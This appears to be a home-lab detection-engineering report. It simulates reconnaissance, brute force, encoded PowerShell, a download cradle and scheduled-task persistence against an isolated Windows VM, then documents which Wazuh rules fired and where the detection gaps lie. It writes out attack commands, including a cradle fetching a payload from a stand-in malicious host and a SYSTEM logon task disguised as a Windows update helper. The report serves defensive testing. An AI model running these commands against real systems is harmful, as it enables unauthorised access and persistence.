





# Day 4 — Attack Simulation, Detection Validation & Gap Analysis

**Date:** April 23, 2026  
**Duration:** ~3 hours  
**Status:** ✅ Complete

---

## Objective

Simulate real attack techniques against the Windows endpoint from Kali Linux, validate that custom detection rules fire correctly, identify detection gaps, and document mitigations. This day completes the detection engineering cycle — rules were written on Day 3, now they get tested against real attacks.

---

## Lab Setup

| Component | Details |
|-----------|---------|
| Attacker machine | Kali Linux 2025.2 — IP: 10.0.0.100 |
| Target machine | Windows 11 Enterprise — IP: 10.0.0.32 |
| Monitoring | Wazuh manager real-time alert stream + Discover dashboard |
| Network scope | All attack traffic stayed within Parallels virtual network (10.0.0.0/24). No external systems targeted. |

---

## Attack 1 — Network Reconnaissance (Nmap)

| Attribute | Value |
|-----------|-------|
| Tool | Nmap v7.x |
| Command | `nmap -sV 10.0.0.32` |
| Ports Discovered | 135/tcp (RPC), 139/tcp (NetBIOS), 445/tcp (SMB) |
| Detection Result | ❌ NOT DETECTED |

> **Why:** Wazuh is log-based. Windows does not write a Security log event when someone scans its ports from the network. The OS receives packets and responds but generates no audit entry.

What open ports tell an attacker:
- Port 445 open = SMB attacks possible (EternalBlue, pass-the-hash, SMB relay, ransomware propagation)
- Port 135 open = RPC/DCOM lateral movement possible

---

## Attack 2 — Brute Force Authentication

Three brute force attempts were made using Hydra with rockyou.txt (14 million real passwords from data breaches).

| Attempt | Result | Events Generated | Detected |
|---------|--------|-----------------|----------|
| SMB Brute Force (Hydra) | Connection rejected at protocol level | 0 × Event ID 4625 | ❌ No |
| RDP Brute Force (Hydra) | Account not active for remote desktop | 0 × Event ID 4625 | ❌ No |
| Simulated via net use (10 attempts) | Full NTLM handshake completed | 10 × Event ID 4625 | ✅ Yes |

### Brute Force Events in Wazuh




### Rule 100006 Fired



Rule 100006 fired twice — once per 5-failure threshold breach. Modern Windows 11 blocks Hydra at the protocol level before authentication, generating no log events. Native `net use` completes the full NTLM handshake that Windows logs correctly.

---

## Attack 3 — PowerShell Encoded Command + Download Cradle



**Encoded Command:**
```
powershell -enc SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0
Decoded: Invoke-WebRequest
```
→ Rule 100002 fired ✅ (Level 12)

**Download Cradle:**
```
powershell -Command "Invoke-WebRequest http://malicious-test.com/payload"
```
→ Rule 100003 fired ✅ (Level 12)

Both rules fired at the same timestamp (11:42:44) from the same host — one attack seen through two detection lenses, not two separate incidents.

---

## Attack 4 — Scheduled Task Persistence



```bash
schtasks /create /tn "WindowsUpdateHelper"
  /tr "powershell.exe -enc cGluZyBnb29nbGUuY29t"
  /sc onlogon /ru SYSTEM
```

| Attribute | Value |
|-----------|-------|
| Task Name | WindowsUpdateHelper — chosen to blend with legitimate Windows tasks |
| Trigger | On every user logon |
| Run As | SYSTEM — highest privilege level |
| Decoded Payload | ping google.com (in a real attack: reverse shell or malware loader) |
| Detection | ✅ Event ID 4698 appeared in Discover |

---

## Real-Time Alert Stream



The Wazuh manager terminal captured both attacker activity (Kali) and victim detections (Windows) in a single stream:

```
RULE 2902   — Level 7  — Kali: Hydra package installed via apt-get
RULE 100006 — Level 12 — Windows: Brute force detected (wave 1)
RULE 100006 — Level 12 — Windows: Brute force detected (wave 2)
RULE 100002 — Level 12 — Windows: Encoded PowerShell detected
RULE 100003 — Level 12 — Windows: Download cradle detected
```

---

## Detection Results Summary

| Attack | Tool / Method | Detected | Rule / Event |
|--------|--------------|----------|-------------|
| Network port scan | Nmap -sV | ❌ No | Detection gap — needs Suricata |
| SMB brute force | Hydra | ❌ No | Detection gap — blocked before auth |
| RDP brute force | Hydra | ❌ No | Detection gap — blocked before auth |
| Failed logons | net use (native) | ✅ Yes | Rule 100006 (fired twice) |
| Encoded PowerShell | -enc flag | ✅ Yes | Rule 100002 (Level 12) |
| Download cradle | Invoke-WebRequest | ✅ Yes | Rule 100003 (Level 12) |
| Scheduled task persistence | schtasks /create | ✅ Yes | Event ID 4698 |
| Attacker tool install on Kali | apt-get install hydra | ✅ Yes | Rule 2902 (Level 7) |

---

## Detection Gap Analysis

### Gap 1 — No Network-Level Visibility (Nmap)

| Attribute | Detail |
|-----------|--------|
| Finding | Nmap port scans generate zero Wazuh alerts |
| Root Cause | Windows does not log inbound connection attempts that do not reach the application layer. Port scans are handled at the TCP/IP stack level with no audit event generated. |
| Impact | Attackers can perform complete network reconnaissance without triggering a single alert. By the time an attack starts, the attacker already knows the full attack surface. |
| Verified | Nmap -sV run against 10.0.0.32. Ports 135, 139, 445 discovered. Zero alerts in Wazuh Discover. |

**Mitigations:**
- Deploy Suricata IDS integrated with Wazuh — detects scan patterns at packet level
- Enable Windows Firewall connection logging — captures inbound connection attempts

### Gap 2 — Windows 11 Blocks Hydra Before Logging

| Attribute | Detail |
|-----------|--------|
| Finding | Hydra brute force against SMB and RDP generates zero Event ID 4625 entries |
| Root Cause | Windows 11 enforces stricter protocol handling. Hydra does not complete the NTLM handshake in a way Windows recognizes as an authentication attempt. No authentication attempt = no log event. |
| Impact | Common brute force tools go completely undetected against modern Windows endpoints on SMB and RDP. |
| Verified | Hydra run — zero 4625 events. Native net use — 10 × 4625 events, Rule 100006 fired correctly. |

**Mitigations:**
- Deploy Suricata network IDS — detects brute force patterns at packet level
- Implement account lockout policy — lock accounts after 5 failures for 30 minutes
- Deploy Microsoft Defender for Endpoint — kernel-level visibility

> **Broader implication:** Log-based SIEM alone is insufficient for complete attack detection. Defense in depth requires network-level monitoring alongside endpoint log collection.

---

## Key Analyst Skills Practiced

**Alert Triage** — Reading expanded events in Discover and extracting key facts: who, what, when, from where.

**Base64 Decoding** — Decoding attacker payloads to understand true intent. `echo "[base64]" | base64 -d` is a daily task for analysts investigating PowerShell-based attacks.

**Alert Correlation** — Recognizing two rules firing at the same timestamp from the same host as one attack, not two separate incidents.

**Detection Gap Analysis** — Recognizing what Wazuh can and cannot see, and identifying mitigations. Understanding the limits of your detection stack is L2-level thinking.
